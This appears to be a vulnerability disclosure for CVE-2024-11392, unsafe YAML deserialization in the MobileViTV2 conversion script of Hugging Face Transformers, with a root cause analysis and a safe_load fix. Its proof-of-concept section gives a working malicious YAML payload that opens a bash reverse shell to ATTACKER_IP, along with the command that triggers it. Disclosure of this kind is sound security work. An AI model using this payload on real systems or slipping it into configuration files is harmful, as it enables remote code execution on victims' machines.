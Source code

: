 ## CVE-2024-11392

### Hugging Face Transformers MobileViTV2 Deserialization of Untrusted Data Remote Code Execution Vulnerability

**High-level overview and effects of the vulnerability:**
The vulnerability allows an attacker to execute arbitrary code on the host machine by supplying a malicious configuration file to the `convert_mlcvnets_to_pytorch.py` script in the Hugging Face Transformers repository. 
If an unsuspecting user uses a third-party model accompanied by a malicious configuration file, executing the `convert_mlcvnets_to_pytorch.py` script will lead to remote code execution (RCE) on the victim's system.

**The Vulnerable Product**
-   Product: Hugging Face Transformers
-   Module: MobileViTV2
-   File: transformers/src/transformers/models/mobilevitv2/convert_mlcvnets_to_pytorch.py
-   Version: Latest
-   GitHub Permalink: [https://github.com/huggingface/transformers/blob/bdb9106f247fca48a71eb384be25dbbd29b065a8/src/transformers/models/mobilevitv2/convert_mlcvnets_to_pytorch.py](https://github.com/huggingface/transformers/blob/bdb9106f247fca48a71eb384be25dbbd29b065a8/src/transformers/models/mobilevitv2/convert_mlcvnets_to_pytorch.py)

**Root Cause Analysis**

-   **Detailed description of the vulnerability:** The vulnerability results from unsafe deserialization of untrusted data. The script uses `yaml.load` function with the loader - `FullLoader`, which loads the full YAML language and is vulnerable to code execution.

-   **Code flow from input to the vulnerable condition:**
    1.  The user downloads a third-party `ml-cvnet` model alongside its configuration file.
    2.  The user runs the `convert_mlcvnets_to_pytorch.py` script and passes the configuration file to it.
    3.  The `convert_mlcvnets_to_pytorch.py` script deserializes the configuration file and executes the malicious code.
-   **Injection point:** The vulnerability occurs at the point where `yaml.load(yaml_file, Loader=yaml.FullLoader)` is called. 
GitHub Permalink: [https://github.com/huggingface/transformers/blob/bdb9106f247fca48a71eb384be25dbbd29b065a8/src/transformers/models/mobilevitv2/convert_mlcvnets_to_pytorch.py#L57](https://github.com/huggingface/transformers/blob/bdb9106f247fca48a71eb384be25dbbd29b065a8/src/transformers/models/mobilevitv2/convert_mlcvnets_to_pytorch.py#L57)
-   **Suggested fixes:** Replace `yaml.load(yaml_file, Loader=yaml.FullLoader)` with `yaml.safe_load(yaml_file)` to prevent the execution of arbitrary code.

-  **Instructions executing the proof-of-concept:**

1.  Create a malicious yaml configuration file `transformers_exploit.yaml` that will open a reverse shell on the victim's system:
```
!!python/object/new:type
args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
listitems: "__import__('os').system('bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1')"
```
2. Run the `convert_mlcvnets_to_pytorch.py` script and pass the  `transformers_exploit.yaml` file to `--orig_config_path`:
```
> python convert_mlcvnets_to_pytorch.py --orig_checkpoint_path dummy_checkpoint.pt --orig_config_path transformers_exploit.yaml --pytorch_dump_folder_path dummy_output --task imagenet1k_256
```
Note: The `dummy_checkpoint.pt`  can be left as an empty file,  `dummy_output` as an empty directory , and `task` as any of the options mentioned in the script.

**Software Download Link:**
[https://github.com/huggingface/transformers/tree/main](https://github.com/huggingface/transformers/tree/main)
